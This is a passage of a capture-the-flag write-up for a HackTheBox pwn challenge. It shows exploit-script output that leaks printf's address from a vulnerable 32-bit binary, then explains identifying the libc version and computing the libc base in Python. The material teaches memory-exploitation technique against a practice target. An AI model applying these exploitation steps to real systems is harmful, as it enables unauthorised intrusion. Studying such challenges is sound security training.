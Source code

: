 ```shell
┌─[✗]─[oxy@oxy]─[~/Practice/hackthebox/challenge/pwn/space]
└──╼ $python rop..py 
[*] '/home/oxy/Practice/hackthebox/challenge/pwn/space/space'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
plt@printf 0x8049040
plt@main 0x80491cf
plt@printf 0x804b2d4
[+] Opening connection to 161.35.163.0 on port 30659: Done
printf@leak 0xf7d90de0
```

we got the leak of libc
lets check the libc version from the leak we got . we can check it [**Here**](https://libc.blukat.me).

![libc_database](/images/space/lib_database.png)

we got three results , we can add on more field to get exact libc version
for this we need to leak another plt table it can be strcpy or read or anything that present on plt table.
i pick a second one here not going further .
download the libc file and load it on our exploit and find the lib base address.


```shell
libc = ELF("./libc6-i386_2.31-0ubuntu9_amd64.so")

"get the offest of printf from libc"
offset = libc.symbols['printf']
"substract the offset from our printf@leak, we got the libc base address."
libc_base = leak_printf - offset
print "libc_base", hex(libc_base)
```
